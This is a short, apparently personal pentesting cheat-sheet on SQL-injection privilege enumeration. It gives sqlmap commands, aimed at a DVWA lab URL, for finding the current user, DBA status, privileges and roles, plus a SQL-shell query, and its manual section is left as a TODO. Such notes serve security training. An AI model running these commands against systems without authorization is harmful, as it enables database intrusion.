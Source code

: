 # Privileges

## Automated

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u <URL> --random-agent --current-user --is-dba 
```

- Enumerate privileges

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --privileges -U CU
```

- Enumerate roles.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --roles -U CU
```

## Manually

TODO: Fill this info

```
$ sqlmap -u <URL> --random-agent --sql-shell

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```